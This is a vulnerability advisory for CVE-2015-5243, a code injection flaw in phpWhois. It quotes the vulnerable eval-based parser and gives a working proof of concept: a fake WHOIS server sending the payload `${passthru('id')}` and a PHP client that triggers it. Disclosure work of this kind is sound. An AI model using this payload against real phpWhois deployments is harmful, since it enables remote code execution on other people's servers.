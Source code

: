 # phpWhois PHP Code Injection #

## Vulnerability Overview ##

phpWhois and some of its forks in versions before 5.1.0 are prone to a
code injection vulnerability due to insufficient sanitization of returned
WHOIS data. This allows attackers controlling the WHOIS information of a
requested domain to execute arbitrary PHP code in the context of the
application.

* **Identifier**            : SBA-ADV-20180425-01
* **Type of Vulnerability** : Code Injection
* **Software/Product Name** : phpWhois
* **Vendor**                : [phpwhois.org](http://www.phpwhois.org/),
                              [abcdmitry](https://github.com/phpWhois/phpWhois),
                              [jsmitty12](https://github.com/jsmitty12/phpWhois),
                              [webalternative](https://github.com/webalternative/phpWhois)
                              and others
* **Affected Versions**     : phpwhois.org: 4.2.2 and probably prior,
                              as well as the following forks
                              abcdmitry: 4.2.5 and probably prior,
                              jsmitty12: 5.0.2 and probably prior
* **Fixed in Version**      : jsmitty12: 5.1.0
* **CVE ID**                : CVE-2015-5243
* **CVSSv3 Vector**         : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
* **CVSSv3 Base Score**     : 9.8 (Critical)

## Vendor Description ##

> This package contains a Whois (RFC954) library for PHP. It allows a
> PHP program to create a Whois object, and obtain the output of a
> whois query with the lookup function.

Source: <https://github.com/phpWhois/phpWhois>

## Impact ##

By exploiting the vulnerability documented in this advisory, an
attacker controlling the WHOIS information of a domain retrieved via
phpWhois can execute arbitrary PHP code in the context of the
application. The set of domains enabling this attack vector is limited
to certain top-level domains. Sensitive data accessible by the
application might get exposed through this attack.

The vulnerability is fixed in version 5.1.0 or newer of jsmitty12's fork.
We recommend upgrading to this version.

## Vulnerability Description ##

phpWhois implements multiple generic parsers for WHOIS data in
`whois.parser.php`. The parser implemented in function
`generic_parser_b` is vulnerable to injection of PHP code.

The function `generic_parser_b` builds a PHP statement from WHOIS data
values by concatenating strings without proper sanitization. It then
passes the statement to the `eval` function:

```php
function generic_parser_b($rawdata, $items = array(), $dateformat = 'mdy', $hasreg = true, $scanall = false) {
[...]
    foreach ($rawdata as $val) {
        if (trim($val) != '') {
            if (($val[0] == '%' || $val[0] == '#') && $disok) {
                $r['disclaimer'][] = trim(substr($val, 1));
                $disok = true;
                continue;
            }
            $disok = false;
            reset($items);
            foreach ($items as $match => $field) {
                $pos = strpos($val, $match);
                if ($pos !== false) {
                    if ($field != '') {
                        $var = '$r' . getvarname($field);
                        $itm = trim(substr($val, $pos + strlen($match)));
                        if ($itm != '')
                            eval($var . '="' . str_replace('"', '\"', $itm) . '";');
                    }
                    if (!$scanall)
                        break;
                }
            }
        }
[...]
}
```

At least the following 33 top-level domain handlers make use of the
vulnerable parser:

```text
ae, aero, ag, asia, au, bh, biz, cat, cn, co, co.za, fi, hu, in, info, jp, lu, me, mobi, museum, name, nz, org, pro, ru, sc, se, su, tel, travel, us, ws, xxx
```

## Proof-of-Concept ##

An attacker can exploit this vulnerability by setting malicious WHOIS
information such as `Registrant Name: ${passthru('id')}` for an arbitrary
`.org` domain.
Instead of a real name, we specify `${passthru('id')}` which PHP will
interpret as a variable expansion inside double quoted string literals.
We simulate this situation via a simple WHOIS server implementation:

```py
import SocketServer

DATA = "Registrant Name: ${passthru('id')}\n"

class WhoisHandler(SocketServer.BaseRequestHandler):
    def handle(self):
        self.request.recv(1024)
        print('Request received')
        self.request.sendall(DATA)
        print('Payload sent')

if __name__ == '__main__':
    SocketServer.ThreadingTCPServer.allow_reuse_address = True
    server = SocketServer.ThreadingTCPServer(('127.0.0.1', 9999), WhoisHandler)
    server.serve_forever()
```

The following example sets up phpWhois to use the simulated WHOIS
server and requests information for `example.org`:

```php
<?php
require_once(__DIR__ . '/vendor/autoload.php');

$whois = new phpWhois\Whois;
$whois->useServer('org', '127.0.0.1:9999');
echo $whois->lookup('example.org');
```

Therefore, the vulnerable phpWhois version executes the injected PHP
statement `passthru('id')` which will execute the Unix `id` command on the
server and return its output.

## Timeline ##

* `2018-04-25`: identification of vulnerability
* `2018-04-26`: initial contact of several phpWhois and fork maintainers
* `2018-04-26`: disclosed vulnerability to phpwhois.org project maintainer
* `2018-04-27`: disclosed vulnerability to jsmitty12
* `2018-04-30`: phpwhois.org project maintainer stated that it is a
                known issue (CVE-2015-5243) with a fix committed at
                <https://github.com/sparc/phpWhois.org>
* `2018-04-30`: fix is not released yet and MITRE lists CVE-2015-5243
                as assigned but private
* `2018-05-29`: jsmitty12 released fixed version 5.1.0
* `2018-08-01`: public disclosure

## References ##

* Original advisory: <https://blog.nettitude.com/uk/cve-2015-5243-phpwhois-remote-code-execution>
* Fixes:
  * <https://github.com/sparc/phpWhois.org/commit/5cc572490c9053d46598ec9348a11e36a5a33a46#diff-f150ae17da7341bf6c2eff928684b3a3>
  * <https://github.com/Gemorroj/phpwhois/commit/91c937e03c876ba1290b6de2a3ad953d2105fdd0>
  * <https://github.com/jsmitty12/phpWhois/commit/863ccf62824f9998099ed20c2952ec8953ce3d06>

## Credits ##

* Original advisory by Iain Wallace ([Nettitude](https://www.nettitude.com/))
* Rediscovered by David Gnedt ([SBA Research](https://www.sba-research.org/))
